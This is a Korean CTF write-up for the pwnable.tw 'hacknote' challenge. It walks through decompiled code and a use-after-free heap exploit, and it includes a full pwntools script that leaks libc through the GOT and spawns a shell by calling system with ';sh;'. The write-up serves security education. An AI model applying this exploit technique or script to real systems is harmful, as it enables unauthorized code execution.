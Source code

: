 ```yaml
---
layout: post
title: "pwnable.tw - hacknote Write-Up"
date: 2018-10-30
excerpt: "200pts"
tags: [write-up]
comments: true
---
```

Use After Free 취약점을 이용한 heap exploit
* * *
![main](https://t1.daumcdn.net/cfile/tistory/99A1D3345BC8899029)

메인은 간단하게
1. Add note
2. Delete note
3. Print note
4. Exit

으로 이루어져있으며 히든 메뉴는 없습니다.
```c
unsigned int sub_8048646()
{
  _DWORD *v0; // ebx
  signed int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf; // [esp+14h] [ebp-14h]
  unsigned int v5; // [esp+1Ch] [ebp-Ch]
 
  v5 = __readgsdword(0x14u);
  if ( dword_804A04C <= 5 )
  {
    for ( i = 0; i <= 4; ++i )
    {
      if ( !ptr[i] )
      {
        ptr[i] = malloc(8u);
        if ( !ptr[i] )
        {
          puts("Alloca Error");
          exit(-1);
        }
        *(_DWORD *)ptr[i] = sub_804862B;
        printf("Note size :");
        read(0, &buf, 8u);
        size = atoi(&buf);
        v0 = ptr[i];
        v0[1] = malloc(size);
        if ( !*((_DWORD *)ptr[i] + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)ptr[i] + 1), size);
        puts("Success !");
        ++dword_804A04C;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
  {
    puts("Full");
  }
  return __readgsdword(0x14u) ^ v5;
}
```
위는 Add note의 디컴파일된 코드인데, 대부분의 heap exploit 바이너리처럼 일반적인 방식으로 malloc만 하는 것이 아니라

바이너리 자체에서 특수한 방식으로 note을 배열하고 관리합니다.

![chunk](https://t1.daumcdn.net/cfile/tistory/99C6A23D5BC88BF702)

Add note로 생성된 note는 위와 같은 형태로 구성되며
```c
int __cdecl sub_804862B(int a1)
{
  return puts(*(const char **)(a1 + 4));
}
```
위 코드처럼 인자+4를 출력하는, 그림에선 puts(+4)로 표현되어 있는 함수 주소와

우리가 입력한 데이터의 주소를 user_data로 가지는 chunk가 먼저 할당되고, 그 밑에 사용자가 요청한 chunk가 할당됩니다.

또한 Delete note시 heap N-1이 먼저 free되고, heap N-2가 그 다음으로 free됩니다. 하지만 ptr은 남아있어 exploit에 이용됩니다.
```c
unsigned int sub_80488A5()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]
 
  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  v1 = atoi(&buf);
  if ( v1 < 0 || v1 >= dword_804A04C )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[v1] )
    (*(void (__cdecl **)(void *))ptr[v1])(ptr[v1]);
  return __readgsdword(0x14u) ^ v3;
}
```
Print note를 눈여겨보아야 하는데, 지정한 인덱스의 chunk의 puts(+4)를 인자로 puts(+4)를 call합니다.

따라서 만약 우리가 puts(+4)와 &data를 임의의 값으로 바꾸면 Print note시 원하는 함수를 실행할 수 있습니다.

일단 exploit 루트는 uaf인데, fastbin을 두 개 할당해주고 한번 free하면 heap N-1과 heap N-2의 크기 차이로 다른 fastbin에 들어가게 됩니다.
![fastbin](https://t1.daumcdn.net/cfile/tistory/992BF6445BC8902010)

이 후 더 작은 크기의  fastbin을 요청하면 heap N-1과 heap N-2 모두 (저 상황에서) 0x10 fastbin에서 할당됩니다. (배열 꼬임)

fastbin의 특성상 두번째 free된 chunk가 먼저 할당되고, 첫번째 heap N-1이 우리가 새롭게 할당된 chunk N-2의 위치가 되는 것입니다.

ptr은 유지되어 우리가 puts(+4)는 유지한채 아무 함수의 got를 &data에 덮어 씌우면  Print note시 libc leak이 가능하게 됩니다.


libc leak 후 offset을 이용해 system을 구하면 같은 원리로 쉘 취득이 가능합니다.

이떄 Print note로 실행되는 함수는 함수 주소와 인자가 같아(ptr[v1]) 단순히 system + &/bin/sh을 넘긴다면 system("&system/binsh")가 되므로 쉘을 얻을 수 없습니다. 

그러므로 단순히 system + ";sh;"를 넘기면 system("&system;sh;")로 쉘이 따집니다.

exp.py
```python
from pwn import *
 
#p = process('./hacknote')
p = remote('chall.pwnable.tw', 10102)
e = ELF('./hacknote')
 
puts_got = e.got['puts']
print_4 = 0x0804862b
 
 
puts_offset = 0x5f140
system_offset = 0x3a940
 
'''
PROCESS
puts_offset = 0x5fca0
system_offset = 0x3ada0
'''
 
def alloc(size, payload):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Note size :')
    p.sendline(str(size))
    p.recvuntil('Content :')
    p.sendline(payload)
 
def free(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(idx))
    
def dump(idx):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(idx))
 
# leak libc
alloc(24, 'AAAA')
alloc(24, 'BBBB')
 
free(0)
free(1)
payload = p32(print_4)
payload += p32(puts_got)
 
alloc(12, payload)
dump(0)
 
leak = u32(p.recv(4))
 
base = leak - puts_offset
system = base + system_offset
 
log.success('libc base leaked : ' + hex(base))
 
#exploit
free(2)
 
payload = p32(system)
payload += ";sh;"
 
alloc(8, payload)
dump(0)
 
p.interactive()
```
* * *
UAF는 의도치 않게 heap 배열이 꼬여버리는 현상에서 시작되는 것 같습니다.
